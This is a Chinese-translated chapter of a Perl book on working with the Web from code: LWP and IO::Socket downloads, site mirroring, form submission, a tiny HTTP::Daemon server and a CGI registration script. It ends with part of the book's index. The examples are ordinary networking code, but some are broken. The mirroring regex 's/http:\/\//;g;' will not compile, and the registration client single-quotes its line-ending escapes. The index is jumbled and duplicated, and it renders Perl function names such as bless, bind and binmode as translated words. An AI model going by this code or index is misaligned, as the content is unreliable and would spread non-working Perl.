$request = new HTTP::Request('GET', 'http://www.cpan.org/doc/FAQs/index.html');
$response = $user_agent->request($request);
open FILEHANDLE, ">file.txt";
print FILEHANDLE $response->{_content};
close FILEHANDLE;
```

程序执行完成后，file.txt的内容如下所示：
```html
<TITLE>Perl FAQ Index</TITLE>
<CENTER>
<BODY BGCOLOR=#ffffff>
<A name="Top">
<h1>

```
```html
Perl FAQ Index

</h1>
</a>
</CENTER>
```

Perl *常见问题*列表已经发布
### 使用IO::Socket获取网页
“好吧，”新手程序员说，“我知道用**LWP::Simple**和**LWP::UserAgent**就能下载网页，还有其他方法吗？”
“当然有，还有很多。比如你可以用**IO::Socket**，”你回答道。Web服务器和浏览器都通过端口进行通信，因此你可以用**IO::Socket**模拟浏览器。Web服务器使用80端口处理HTTP连接，你只需要连接到该端口并发送对应的HTTP请求即可。举个例子，我会向ISP的80端口发送HTTP请求，从某个网站下载名为index.html的网页。首先，我们连接到服务器**www.starpowder.com**的该端口（注意：这个网站并不存在，我用这个虚构的URL替换了示例原本测试使用的网站名称）：
```perl
use IO::Socket;
$socket = IO::Socket::INET->new (
    Proto => "tcp",
    PeerAddr => "www.starpowder.com",
    PeerPort => 80,
);
$socket->autoflush(1);
```

连接到端口后，我们向Web服务器发送HTTP **GET**请求获取目标文件，代码如下：
```perl
use IO::Socket;
$socket = IO::Socket::INET->new (
    Proto => "tcp",
    PeerAddr => "www.starpowder.com",
    PeerPort => 80,
);
$socket->autoflush(1);
print $socket "GET /index.html HTTP/1.0\015\012\015\012";
```

> 注意：我特意添加了组成Internet换行符的`\r\n`字符。要指定实际要下载的文档，你需要知道该文档在文件系统中的位置；本例中index.html位于根目录。

现在，你可以像读取普通套接字一样从这个套接字读取数据（参见第20章）。本例中，我们会通过以下方式读取网页内容并存储到本地文件中：
```perl
use IO::Socket;
$socket = IO::Socket::INET->new (
    Proto => "tcp",
    PeerAddr => "www.starpowder.com",
    PeerPort => 80,
);
$socket->autoflush(1);
print $socket "GET /index.html HTTP/1.0\015\012\015\012";
open FILEHANDLE, ">local.html";
while (<$socket>) {
    print FILEHANDLE;
}
close FILEHANDLE;
close $socket;
```

上述代码会将页面下载到local.html文件中，该文件内容如下所示：
```http
HTTP/1.1 200 OK
Date: Mon, 14 May 17:18:50 GMT
Server: Apache/1.3.6 (Unix) FrontPage/4.0.4.3 ApacheJServ/1.0b3
Last-Modified: Fri, 16 Mar 03:04:31 GMT
ETag: "2110ce2-a59-3ab182bf"
Accept-Ranges: bytes
Content-Length: 2649
Connection: close
Content-Type: text/html
<html>
<head>
<title>Welcome to Starpowder!</title>
</head>
<body>
<center>

. . .
```

这段代码非常巧妙。你可能没想到可以用尖括号运算符`<`和`>`从Web服务器读取网页，但如果使用**IO::Socket**，就可以实现这个功能。

| 相关解决方案 | 所在页码 |
| :--- | ---: |
| 使用**IO::Socket**创建TCP客户端 | 865 |
| 使用**IO::Socket**创建TCP服务器 | 868 |

### 创建镜像站点
新手程序员过来说：“我的ISP昨晚又磁盘崩溃了，我所有文件都丢了，而且我没有任何备份！”
“哦，好吧，”你说道，“下次你可以用**LWP::Simple**模块的**mirror**函数给你的网站创建备份镜像。”
**mirror**函数提供了另一种简单的网页下载方式，这次会将网页存储到本地文件中。要使用这个函数，你只需要给它传入要下载的URL和要存储的文件路径即可，调用格式为：**mirror($url, $file)**。举个例子，这段代码会搜索网站上的index.html页面，找到其中指向其他页面的链接，然后下载这些页面，为每个页面创建一个本地文件。创建备份文件时，这段代码会将正斜杠转换为连字符，因此一个

# 第28章 用代码处理Web
documentation/warnings.html 文件将会被存储为 documentation-warnings.html：
```perl
use LWP::Simple;
require HTML::Parser;
require HTML::LinkExtor;
$html = get("http://www.yourserver.com/~username/index.html");
$link_extor = HTML::LinkExtor->new(\&handle_links);
$link_extor->parse($html);

sub handle_links {
    ($tag, %links) = @_;
    if ($tag eq 'a' && $links{href} ne '') {
        $url = $links{href};
        $file = $url;
        $file =~ s/http:\/\/www\.//;
        $file =~ s/http:\/\//;g;
        $file =~ tr/\//-/;
        print "Creating $file.\n";
        mirror($url, $file);
    }
}
```
### 从代码提交HTML表单
“我知道有很多方法可以从代码下载网页，”新手程序员说，“但要从代码向CGI脚本发送表单呢？我能做到吗？”
“当然可以，”你说，“搬个凳子过来，我教你不止一种方法实现。”
新手程序员说：“我就知道你会这么说。”
在本节中，我会介绍三种从代码提交表单的方法：使用**LWP::Simple**模块的**get**函数、使用**LWP::UserAgent**，以及使用**IO::Socket**。
为了便于演示，我会编写一个简短的CGI脚本`cgireader.cgi`，它只会读取并显示两个名为**text1**和**text2**的HTML控件中的文本：
```perl
#!/usr/local/bin/perl
use CGI;
$co = new CGI;
print $co->header, $co->start_html(
    -title=>'CGI Example',
    -author=>'Steve',
    -BGCOLOR=>'white',
    -LINK=>'red'
);
if ($co->param()) {
    print "You entered this text: ", $co->em($co->param('text1')), " ", $co->em($co->param('text2')), ".";
} else {
    print "Sorry, I did not see any text.";
}
print $co->end_html;
```
### 使用LWP::Simple
要使用**LWP::Simple**提交表单，你可以使用**URI::URL**模块（URI是统一资源标识符的缩写）创建一个携带表单数据的**URL**对象。
具体用法如下所示；在本例中，我会创建一个新的**URL**对象，并为**text1**和**text2**元素添加数据，代码如下：
```perl
use LWP::Simple;
use URI::URL;
$url = url('http://www.yourserver.com/~username/cgi/cgireader.cgi');
$url->query_form(text1 => 'Hello', text2 => 'there');
```
现在，我只需要像平时一样获取网页并打印即可：
```perl
use LWP::Simple;
use URI::URL;
$url = url('http://www.yourserver.com/~username/cgi/cgireader.cgi');
$url->query_form(text1 => 'Hello', text2 => 'there');
$html = get($url);
print $html;
```
结果如下所示（注意`cgireader.cgi`已经获取并使用了**text1**和**text2**元素的值）：
```html
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML//EN">
<HTML>
<HEAD>
<TITLE>CGI Example</TITLE>
<LINK REV=MADE HREF="mailto:Steve">
</HEAD>
<BODY BGCOLOR="white" LINK="red">
You entered this text: <EM>Hello</EM> <EM>there</EM>.
</BODY>
</HTML>
```
事实上，如果你不介意手动编码查询字符串，也可以完全不用**URI::URL**，直接像下面这样调用**get**方法即可：
```perl
use LWP::Simple;
$html = get('http://www.yourserver.com/~username/cgi/?text1=Hello&text2=there');
print $html;
```
### 使用LWP::UserAgent
你也可以使用**LWP::UserAgent**自制一个迷你浏览器，发送对应的HTTP请求。
在本例中，我会按如下方式创建一个新的用户代理：
```perl
use LWP::UserAgent;
$user_agent = LWP::UserAgent->new;
```
现在，我使用**HTTP::Request::Common**创建一个新的HTTP请求（注意你可以通过这种方式传入一个匿名数组的引用，用来存放**text1**、**text2**等多个表单数据值）：
```perl
use HTTP::Request::Common;
use LWP::UserAgent;
$user_agent = LWP::UserAgent->new;
$request = POST 'http://www.yourserver.com/~username/cgi/cgireader.cgi', [text1 => 'Hello', text2 => 'there'];
```
剩下的就是调用用户代理的**request**方法执行HTTP请求，并打印Web服务器的响应，代码如下：
```perl
use HTTP::Request::Common;
use LWP::UserAgent;
$user_agent = LWP::UserAgent->new;
$request = POST 'http://www.yourserver.com/~username/cgi/cgireader.cgi', [text1 => 'Hello', text2 => 'there'];
$response = $user_agent->request($request);
print $response->as_string;
```
以下是这段代码发出的HTTP请求的返回结果；可以看到，`cgireader.cgi`已经获取到了**text1**和**text2**的两个值并进行了使用：
```http
HTTP/1.1 200 OK
Connection: close
Date: Fri, 07 May 2002 19:39:44 GMT
Server: Apache/1.2.1
Content-Type: text/html
Client-Date: Fri, 07 May 19:38:58 GMT
Client-Peer: 205.232.34.1:80
Link: <mailto:Steve>; rev="MADE"
Title: CGI Example
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML//EN">
<HTML>
<HEAD>
<TITLE>CGI Example</TITLE>
<LINK REV=MADE HREF="mailto:Steve">
</HEAD>
<BODY BGCOLOR="white" LINK="red">
You entered this text: <EM>Hello</EM> <EM>there</EM>.
</BODY>
</HTML>
```
### 使用IO::Socket
如果没安装LWP和HTTP模块，你依然可以使用**IO::Socket**实现表单提交的自动化，只不过需要自己手动构建查询字符串，工作量会稍大一些。
现在来看这个示例；在本例中，我会让用户输入**text1**和**text2**的值：
```perl
use IO::Socket;
print "Enter a value for text1: ";
chomp($text1 = <>);
print "Enter a value for text2: ";
chomp($text2 = <>);
$string = '?' . "text1=" . $text1 . "&" . "text2=" . $text2;
$string =~ tr/ /+/;
$socket = IO::Socket::INET->new(
    Proto => "tcp",
    PeerAddr => "yourserver.com",
    PeerPort => 80,
);
$socket->autoflush(1);
print $socket "GET /username/cgi/cgireader.cgi$string HTTP/1.0\015\012\015\012";
while ($line = <$socket>) {
    $html .= $line;
}
close $socket;
print $html;
```
运行这段代码的输出如下所示；同样，**text1**和**text2**的值都成功传递到了`cgireader.cgi`中：
```http
% perl connector.pl
Enter a value for text1: Hello
Enter a value for text2: there
HTTP/1.1 200 OK
Date: Fri, 07 May 2002 19:46:26 GMT
Server: Apache/1.2.1
Connection: close
Content-Type: text/html
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML//EN">
<HTML>
<HEAD>
<TITLE>CGI Example</TITLE>
<LINK REV=MADE HREF="mailto:Steve">
</HEAD>
<BODY BGCOLOR="white" LINK="red">
You entered this text: <EM>Hello</EM> <EM>there</EM>.
</BODY>
</HTML>
```
### 创建迷你Web服务器
“哇，”新手程序员说，“现在我已经能直接向互联网套接字打印HTTP请求了。我还能做更酷的事吗？”
“要不要试试自己做一个Web服务器？”你问道。
新手程序员的眼睛一下子亮了。
你可以使用**HTTP::Daemon**类来创建一个迷你Web服务器。
举个例子，我会编写并运行一个名为`HTTPserver.pl`的Web服务器，它会向所有访问它的浏览器返回一个网页。
如果你在ISP（互联网服务提供商）的服务器上运行这个服务，它会告诉你应该使用ISP上的哪个套接字来连接它。
示例如下：
```perl
% perl HTTPserver.pl
My URL is: http://yourserver.com:3475/.
```
现在，当用户访问**http://yourserver.com:3475**时，就会看到这个服务器提供的网页，效果如图28.1所示。
这个网页甚至还提供了一个文本区域，允许用户输入文本。
`HTTPserver`的工作原理如下：首先我会创建一个新的**HTTP::Daemon**对象，并设置连接超时时间为10分钟，代码如下：
```perl
use HTTP::Daemon;
$HTTPserver = HTTP::Daemon->new(Timeout => 600);
```
你可以给**HTTP::Daemon->new**传入和**IO::Socket::INET->new**一样的参数，包括要使用的端口号。
如果你不指定端口（就像本例这样），**HTTP::Daemon->new**会随机选择一个端口。
为了显示服务器正在使用的端口，我调用了**$HTTPserver**对象的**url**方法，并打印该方法返回的值：

# 第28章 在代码中处理Web
图28.1 从你自己的Web服务器读取网页。
```perl
use HTTP::Daemon;
$HTTPserver = HTTP::Daemon->new(Timeout => 600);
print "My URL is: ", $HTTPserver->url, ".\n";
```
现在，服务器和其他任何套接字服务器一样，只需要等待即可。如果有客户端浏览器连接，我会直接向其输出网页，示例如下：
```perl
use HTTP::Daemon;
$HTTPserver = HTTP::Daemon->new(Timeout => 600);
print "My URL is: ", $HTTPserver->url, ".\n";
while ($HTTPclient = $HTTPserver->accept) {
    $HTTPclient->autoflush(1);
    print $HTTPclient '<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML//EN">
    <HTML>
    <HEAD>
    <TITLE>Welcome to my Web server!</TITLE>
    </HEAD>
    <BODY>
    <CENTER>
    <H1>Welcome to my Web server!</H1>
    <p>
    Do you like my Web server? Let me know...
    </CENTER>
    <FORM METHOD="POST" ENCTYPE="application/x-www-form-urlencoded">
    <CENTER>
    <TEXTAREA NAME="textarea" ROWS=10 COLS=60>
    </TEXTAREA>
    </CENTER>
    </FORM>
    </BODY>
    </HTML>';
    $HTTPclient->close;
}
```
就这样，全部完成；现在，你已经创建并运行了自己的Web服务器！

## 处理在线用户注册
“我现在已经开发了数百个新应用了，”新手程序员说，“但我还有一个问题想不通。我把这些应用发布出去之后，怎么让用户在线注册，这样我才能给他们推送更新呢？”
你说：“我来告诉你方法，如果你掌握了这最后一个主题，我就把你从新手程序员升为入门程序员。”
“哇！”新手程序员欢呼着，开心地去给你拿咖啡了。

本示例将展示如何从命令行运行的程序中支持在线用户注册。
本主题中的代码将在你的ISP服务商处创建一个名为reg.log的文件，其中存储注册用户的日期、姓名和邮箱地址，示例如下：
```
Date: Sun May 2 10:53:17 EDT
Name: Steve
email: steve@server.com
Date: Mon May 3 10:54:04 EDT
Name: Nancy
email: nancy@server.com
Date: Wed May 5 10:56:19 EDT
Name: Claire
email: claire@user.com
Date: Fri May 7 16:55:07 EDT
Name: Dan
email: dan@superuser.com
```
如本章引言中提到的，这种在线注册技术专门针对命令行应用设计，无需使用Web浏览器、邮件程序或FTP客户端。
而且，因为**HTTP、HTML、FTP、MAIL和LWP** 模块都是非标准模块，因此我不会假设用户已经安装了它们。
相反，我会使用 **IO::Socket** 来开发这个应用。
通常，使用 **IO::Socket** 时，你需要一个可连接的服务器，这意味着你可能会觉得需要在ISP服务商处运行一个持续运行的进程来处理用户注册。
实际上，如果你连接到HTTP端口（即80端口），就可以使用ISP服务商处一直运行的Web服务器。
因此，这个应用会将用户的注册信息写入ISP服务商处的CGI脚本reg.cgi中，该脚本会将信息追加到reg.log文件里。
要使用这个应用，你需要将reg.cgi和文本文件reg.log一起上传到你的ISP服务商处。（请确保为reg.log设置的权限足够低，以便CGI脚本可以写入该文件。）

以下是reg.cgi的内容，它负责将用户的姓名和邮箱追加到reg.log中：
```perl
#!/usr/local/bin/perl
use CGI;
$co = new CGI;
print $co->header, $co->start_html(
    -title => 'CGI Example',
    -author => 'Steve',
    -meta => {'keywords' => 'CGI Perl'},
    -BGCOLOR => 'white',
    -LINK => 'red'
);
if ($co->param()) {
    $! = 0;
    open FILEHANDLE, ">>reg.log";
    print FILEHANDLE "Date: " . `date`;
    print FILEHANDLE "Name: " . $co->param('name') . "\n";
    print FILEHANDLE "email: " . $co->param('email') . "\n";
    close FILEHANDLE;
    unless ($!) {
        print "Thanks for registering.";
    } else {
        print "Sorry, there was an error: $!";
    }
}
print $co->end_html;
```
如果注册流程正常，reg.cgi会返回包含“感谢您的注册”文本的网页；如果出现错误，则会返回包含“抱歉，出现错误：”文本的网页。
为了使用这个CGI脚本，我会创建一个示例应用reg.pl，支持用户在线注册。
在reg.pl中，我们会向用户询问其姓名和邮箱：
```perl
use IO::Socket;
print "Type your name: ";
chomp($name = <>);
print "Type your email: ";
chomp($email = <>);
$string = '?' . "name=" . $name . "&" . "email=" . $email;
$string =~ tr/ /+/;
$socket = IO::Socket::INET->new(
    Proto => "tcp",
    PeerAddr => "yourserver.com",
    PeerPort => 80,
);
$socket->autoflush(1);
print $socket "GET /username/cgi/reg.cgi$string ", 'HTTP/1.0\015\012\015\012';
while ($line = <$socket>) {
    $results .= $line;
}
close $socket;
if ($results =~ /Thanks for registering./mg) {
    print "Thanks for registering.";
} else {
    print "Sorry, there was an error.";
}
```
该脚本在命令行中的运行效果如下：
```
% perl reg.pl
Type your name: Steve
Type your email: here@I_am.com
Thanks for registering.
```
就这样，全部完成。现在，即使没有安装**HTTP**、**HTML**、**FTP**、**MAIL**和**LWP**模块，你也已经实现了用户在线注册功能。
至此，最后一个示例也完成了，本书的内容也全部介绍完毕。编写本书的过程非常愉快，希望你在阅读时也能感受到乐趣。
接下来就请你运用Perl真正强大的编程能力吧；希望你能像我一样享受使用Perl的乐趣。
来自老大、编程正确性主管、新手程序员以及所有其他成员：*编程愉快！*

## 索引
**&（与号）**，52、288、391
**&** 字符，283
**&** 运算符，166
**&&** 运算符，146、159、167–168、175、190、221
**$&** 变量，418、420、426–427
<>（尖括号），35、59
< 字符，330
**<** 运算符，159
> 字符，331
**>** 运算符，159
**<>** 运算符，179–181
**<<** 运算符，145、156
**>>** 运算符，145、156
**>=** 运算符，159
**<=** 运算符，159
**<=**，118
**<=>** 运算符，160
**$<** 变量，419、449–450
**$>** 变量，419、451
**->**，378–379、695、700、787、788
*（星号），52、57、97、138
***，201
* 运算符，145、153
* 限定符，242
** 运算符，145、150
**\\***，243
**?** 量词，269
**FILEHANDLE[IO]** 语法，575
**$*** 变量，419、427–428
**@（at符号）**，52、80、95、285、387
**@** 字符，330、331
**@** 前缀解引用符，397
**@*.**，335
**@\*** 结构，389
**@_**，292、296、417、458–459
**@ARGV**，103、120–121、180、459–460、530、622
**\\@array**，102、106、107、389
**@EXPORT** 数组，741
**@EXPORT_FAIL** 数组，744
**@INC**，17、460
**@INC** 数组，602
**@ISA** 数组，692、741、799、821、832
**$@** 变量，299、419、432
**\（反斜杠）**，33、66、239、547
**\\** 运算符，148、151、371
**\\[**，33、66
**\\'**，33、66、69
**\\033**，33、66、360
**\\077**，238
**\\a**，33、66、238、360
**\\A** 断言，246、256
**\\B**，33、66、233、241、243、360
**\\B** 断言，245
**\\b** 断言，245、254
**\\c[[**，238、360
**\\D**，238
**\\d**，238
**\\D** 断言，258、259
**\\d** 断言，258、259
**\\E**，238、361
**\\e**，33、238、360
**\\f**，33、66、238、360
**\\G** 断言，245、263–264
**\\L**，66、238、361
**\\l**，66、238、360
**\\N**，66
**\\n**，33、66、238、264、360
**\\Q**，66、238、361
**\\r**，33、66、238、360
**\\S**，238、254、255、259
**\\s**，238、255
**\\t**，33、66、238、360
**\\U**，66、238、361
**\\u**，66、361
**\\W**，238
**\\w**，238、254、259
**\\w+**，238
**\\x1**，238
**\\x1b**，33、66、360
**\\Z** 断言，245、257
**\\z** 断言，245、257
**\\\\**，243
**$\\** 变量，419、422、433
**[ ]（方括号）**，21、78、79、95、99、101、122、148、387
**$[** 变量，101、433
**$]** 变量，419、434
**^（插入符）**，242、255、334
**^** 断言，244
**^** 运算符，166、167、237
**^[A**，522
**^[B**，522
**^[C**，522
**^[D**，522
**$^** 变量，338、419、422、435
**:（冒号）**
**$,:**，318、749
**$:** 运算符，143、171
**$:** 变量，419、422、430
**$:... （免内存括号）**，250
**%:** 变量，453–455
**,（逗号）**，173–174
**$,** 变量，114、256、419、422、429
**{ }（花括号）**，13、28、96、122、148、187、188
**{n,}** 限定符，243
**{n,m}** 限定符，243
**$（美元符号）**，48、52、95、99、101、118、122、237、376、406、417
**$** 断言，244
**$** 运算符，395–396
**$** 限定符，243
**$&** 变量，418、420、426–427
**$<** 变量，419、449–450
**$>** 变量，419、451
**$*** 变量，419、427–428
**$@** 变量，299、419、432
**$\** 变量，419、422、433
**$[** 变量，101、433
**$]** 变量，434
**$^** 变量，338、419、422、435
**$^A** 变量，419、435–436
**$^C** 变量，419、436
**$^D** 变量，419、436
**$^E** 变量，419、436–437
**$^F** 变量，419、437
**$^H** 变量，438
**$^I** 变量，419、438
**$^L** 变量，338、419、422、438
**$^M** 变量，439
**$^O** 变量，419、439
**$^P** 变量，419、440
**$^R** 变量，440
**$^S** 变量，440–441
**$^T** 变量，419、441–442
**$^V** 变量，6、419、442–443
**$^W** 变量，419、443–444
**$^X** 变量，419、444
**$:** 运算符，143、171
**$:** 变量，419、422、430
**$:... （免内存括号）**，250
**$.,** 变量，114、256、419、422、429
**${WARNING_BITS}** 变量，445
**${WIDE_SYSTEM_CALLS}** 变量，445
**$$** 变量，418、425–426
**$.** 变量，419、422、429–430
**$=** 变量，338、340、419、422、450–451
**$!** 变量，226、418、423–424
**$/ **变量，419、422、430
**$-** 变量，338、340、418、422、423
**$(** 变量，418、427
**$)** 变量，419、427
**$%** 变量，338、340、418、422、426
**$+** 变量，419、449
**$#** 变量，418、425
**\\@array**，102、106、107、389
**\\@ref**，389
**$`** 变量，418、423

## $（美元符）
- $$ 变量，418, 427
- $! 变量，338, 419, 422, 447
- $" 变量，418, 424–425
- $# 变量，338, 418, 422, 423
- $% 变量，338, 340, 418, 422, 426
- $& 变量，338, 418, 422, 423
- $' 变量，338, 340, 418, 422, 424
- $* 变量，338, 419, 422, 447
- $- 变量，338, 419, 422, 448
- $. 变量，338, 340, 418, 422, 425
- $/ 变量，419, 422, 430
- $0 变量，419, 452
- $: 变量，338, 419, 422, 448
- $; 变量，419, 430–431
- $< 变量，338, 419, 422, 447
- $= 变量，338, 340, 419, 422, 450–451
- $> 变量，338, 419, 422, 448
- $? 变量，419, 431–432
- $@ 变量，419, 432
- $[ 变量，338, 418, 422, 426
- $\ 变量，338, 419, 422, 448
- $] 变量，338, 418, 422, 426
- $^ 变量，338, 419, 422, 449
- $_ 变量，36–39, 200, 204, 233, 417, 419, 445–446
- $^A 变量，419, 435–436
- $ARGV 变量，452
- $AUTOLOAD 变量，752, 754, 755
- $base_address 变量，1041, 1042
- $base_url 变量，1041, 1044
- $CGI::POST_MAX 变量，986
- $filehandle->getline 方法，559
- $filehandle->getlines 方法，559
- $key 变量，1041, 1042
- $localvalue 变量，279
- $n 变量，453
- $opt_p，120
- $PERL_VERSION 运算符，616
- *$reference*，376
- <$scalar>，181
- $value，311
- $value 变量，278
## =（等于号）
- = 运算符，146, 160–161, 172–173, 840
- => 二合字母，174
- >= 运算符，123–124, 145, 148
- == 运算符，149, 160, 161
- =~ 运算符，145, 152
- =back 指令，367
- =begin label 指令，367
- =cut 指令，367
- =end label 指令，367
- =for label 指令，367
- =head1 标题指令，367
- =head2 标题指令，367
- =item text 指令，367
- =over # 指令，367
- =pod 指令，367
## +（加号）
- .（点号），239, 264, 323
- . 运算符，145, 155
- .*，243
- .. 表示法，78, 100
- .. 运算符，170–171
- + 运算符，143, 145, 155
- +=，172
- ++（自增运算符），65, 145, 149, 839–842
- +? 量词，269
- $+ 变量，419, 449
## !（感叹号）
- ! 运算符，143, 151, 174, 175
- != 运算符，160
- !~ 运算符，145, 152
- <!ATTLIST> 元素，1083
- !$! 变量，226, 418, 423–424
## /（正斜杠）
- / 运算符，145, 153
- // 结构，74
- </FORM>，931
## -（连字符）
- - 字符，240, 625
- - 运算符，145, 151, 155
- ->，378–379, 695, 700, 787, 788
- -=，172
- -- 运算符，24, 107, 149
- -0 开关，21
- -A 文件测试运算符，158
- -a 开关，21
- -b 文件测试运算符，158
- -C 文件测试运算符，158
- -c 文件测试运算符，158
- -C 开关，21
- -c 开关，21, 27
- -dname 开关，21
- -d 文件测试运算符，158, 620
- -d 开关，21
- -dletters 开关，21
- -dnumbers 开关，21
- -e 命令行开关，22
- -e 文件测试运算符，157, 158
- -e 开关，17, 19, 25–26
- -f 文件测试运算符，158
- -fill 选项，663
- -F pattern 开关，22
- -g 文件测试运算符，158
- -g 修饰符，233, 234, 243, 248
- -h 开关，22
- -i 开关，578
- -I directory 开关，22
- -I/extension 开关，22
- -k 文件测试运算符，158
- -l 文件测试运算符，158
- -l/octnuml 开关，22
- -M 文件测试运算符，158
- -M 开关，23
- -m 开关，23
- -n 开关，22, 23, 758
- -O 文件测试运算符，158
- -o 开关，158
- -oi 开关，977
- -p 文件测试运算符，158
- -P 开关，23
- -p 开关，22, 23, 120, 578
- -R 文件测试运算符，158
- -S 文件测试运算符，158
- -s 文件测试运算符，158
- -S 开关，23
- -s 开关，23
- -t 开关，977
- -T 文件测试运算符，158, 620
- -t 文件测试运算符，157, 158
- -T 开关，23
- -u 文件测试运算符，158
- -U 开关，23
- -u 开关，23
- -vname 开关，23
- -V 开关，10–11, 23
- -v 开关，8, 23
- -W 文件测试运算符，158
- -w 开关，15, 16, 23, 24–25, 443
- -X 目录开关，24
- -x 目录开关，23
- -X 文件测试运算符，158
- -x 文件测试运算符，158
- -z 文件测试运算符，158
- 双连字符，622, 625
- 开关名中的连字符，622
## '（左单引号）
- '，52, 66, 69, 70
## ()（括号）
- () 列表运算符，127
- () 空列表，109
## %（百分号）
- % 运算符，145, 154
- %:: 变量，453–455
- %%，350, 350
- %c，350
- %D，351
- %d，350
- %E，351
- %e，351
- %employees，137
- %ENV 哈希，1020
- %ENV 变量，455–456
- %F，351
- %f，351
- %G，351
- %g，351
- %i，351
- %INC 变量，456–457
- %n，351
- %O，351
- %o，351
- %P，351
- %p，351
- %s，351
- %SIG 变量，457–458
- %U，351
- %u，351
- %X，351
- %x，351
## #（井号）
- #，34, 332
- #! 语法，15
- ## 变量，418, 425
- ##array，102, 106, 107, 389
- ##ref，389
## ?（问号）
- ?? 量词，269
- $? 变量，419, 431–432
- +? 量词，269
## '（右单引号）
- '，52, 66, 69, 70
## ;（分号）
- ;，187, 318
## "（双引号）
- "，52, 66, 69, 70
## ~（波浪号）
- ~ 运算符，151, 166
- $~ 变量，338, 419, 422, 448
- !~ 运算符，145, 152
## _（下划线）
- _ 字符，794, 809
- __DATA__ 标记，572, 756
- __END__ 标记，572
- __PACKAGE__ 标识符，737
- $_，36–39, 200, 204, 233, 417, 419, 445–446
## |（竖线）
- | 运算符，166, 167, 332
- || 运算符，146, 159, 168, 176–178, 190
- ||= 运算符，295
- $| 变量，338, 419, 422, 447
- \033，33, 66, 360
- \077，238
- \a，33, 66, 238, 360
- \A 断言，246, 256
- \A，522
- \B，66
- \B 断言，245
- \b，33, 233, 241, 243, 360
- \b 断言，245, 254
## A
- **a 方法（CGI.pm 模块），918**
- **abbrev 方法，629–630**
- 缩写，唯一，629–630
- **abs 函数，171, 465**
- 绝对值，对应函数，171, 465
- **accept 函数，880**
- **accept 方法（IO::Socket 模块），869**
- **Add 方法，681–682, 836–838**
- addch 函数，517
- Add_Delta_Days，611
- Add_Delta_DHMS，612
- **addhistory 方法（Term::ReadLine 模块），541**
- 加法运算符，143, 145, 155, 836–838
- 取地址运算符，182
- **alarm 函数，511–512**
- 报警信号，发送，511–512
- **Alias 模块，830–831**
- 别名
  - grep 函数，86
  - typeglobs，97
- **ALRM 信号，511**
- 可选匹配，241–242, 266
- 锚点，244, 263
- **与运算符，67, 146, 159, 162, 167, 175–176, 190**
- **按位与运算的值，162–163, 164**
- 尖括号 (<, >)，35, 530, 558
- 尖角运算符，530, 558
- 匿名数组构造器，387–388, 389
- 匿名数组构造函数，712
- 匿名数组，379–380, 387–389
- 匿名哈希，379–380, 389–393
- 匿名子例程
  - 创建，318–319
  - 用于创建私有方法，826–828
  - 引用，379, 391–392
  - 作用域闭包，412–413
  - 用途，392
- **AnyDBM_File 模块，595, 692**
- **Apache::AxKit::XMLFinder 模块，1087**
- **Apache::MimeXML 模块，1087**
- **appendChild 方法（XML::DOM 模块），1131–1132, 1134**
- 应用
  - **Expect 模块，520–521**
- 反余弦，对应函数，470
- 反正弦，对应函数，489
- 反正切，对应函数，466
- 参数，子例程，286, 290–296, 458–459
- **@ARGV，103, 120–121, 180, 459–460, 530, 622**
- **$ARGV 变量，452**
- 算术取负运算符，151
- **@array，695, 699**
- 数组基变量，433
- 数组元素，119
- 数组索引，95, 99, 102
- 字符串数组
  - **split 函数，492–493**
- 数组切片，110–112
- **数组，49, 95–96**
  - 行为类似哈希，410–412
  - 匿名数组，379–380, 387–389
  - 追加，110
  - **@ARGV，103, 120–121, 180, 459–460, 530**
  - 数组切片，110–112
  - 数组的数组，694–701
  - 创建，95, 99–101
  - 删除数组元素，119
  - 判断元素是否已初始化，119
  - 清空，109
  - **@EXPORT 数组，741**
  - **@EXPORT_FAIL 数组，744**
  - grep 函数，86–87
  - 扩展，101, 108–109
  - 哈希数组，690, 706–711
  - 哈希的哈希，712–714
  - **@INC 数组，460**
  - **@ISA 数组，692, 741, 799, 821, 832**
  - 长度，101, 106–108
  - 列表上下文，80–81
  - 遍历，112–114
  - 合并，108, 109–110
  - 多维数组，431, 686, 694–701
  - 尚不存在，101
  - 一维数组，689, 693
  - 插值数组值的输出字段分隔符，418, 424–425
  - 按引用传递，312–313
  - 传递给子例程，291–293
  - 前缀解引用符，95
  - 打印，114–115
  - 压入和弹出，103–104
  - 引用，382–383
  - 按引用返回，313–314, 403
  - 返回值，297
  - 反转，117
  - 在标量上下文中，107
  - 标量上下文，113
  - 移出和移入，105–106
  - 收缩，108–109
  - 排序，118
  - 拼接，115–116
  - 语法，695
  - 二维数组，431, 687–689, 695–697
  - 绑定到类，818–819
  - 在列表赋值中使用，136–137
  - 将数组写入和读取到文本文件，579–580
  - 从零开始，95, 101
- **数组的数组，694–701**
- **数组的哈希，690, 706–711**
- 箭头运算符，123–124, 145, 148, 378, 388, 390, 391
  - 省略，400–401
  - 引用，378–379, 398–400
- 箭头，6
- **article 方法（News::NNTPClient 模块），856**
- **断言，244–245**
  - 先行断言，249, 270–272
  - 后行断言，249, 270–272
  - 最后一个正则表达式断言的结果变量，440
- 赋值运算符，53–54, 80, 172–173
- 关联数组。**参见哈希。**
- 星号 (*)，52, 57, 97, 138
- 异步双向客户端/服务器应用，871–872
- atan2 函数，466, 484
- atime 元素，111
- atof 函数，68
- <!ATTLIST> 元素，1083
- attr 函数，831
- attrib 命令，584
- 属性节点，XML::DOM 模块，1109–1110
- **属性**
  - 在 DTD 中指定，1083–1086
  - XML，1075–1076, 1083–1086, 1109, 1135–1136
- 自动递减运算符，145, 149
- 自动递增运算符，145, 149
- autoflush 函数，557–558
- **autoflush 方法，447, 558**
- **AUTOLOAD 方法（NDBM_File 模块），835**
- **AUTOLOAD 子例程，733, 751–755**
- **$AUTOLOAD 变量，752, 754, 755**
- **AutoLoader 模块，595, 755–756**
- **AutoSplit 模块，595, 755–756**
- 自动实例化，51, 385, 398
- 可用性，作为程序设计问题，42, 43


## B
### 二进制
- **二进制模式**函数，6, 555–557, 571
- 二进制数转换，59–60, 483, 502
- 二进制数，6
- 二进制运算符，143, 155
  - 重载，810–811, 836–839
- **绑定**函数，648–649, 879
- 绑定运算符，145, 152
- 位图，**Tk**，667
- 按位取反运算符，151
- 按位字符串运算符，166–167
- 按位值
  - 按位与，162–163, 164
  - 异或运算，**或**，164–166
  - **按位或**运算，163–164
- **祝福**函数，773, 777, 800
- 被祝福的对象，777
- 块，13, 28, 187–188, 389, 397
- **Boulder::XML** 模块，1087
- 花括号，13, 28, 96, 122, 148, 176, 187, 188
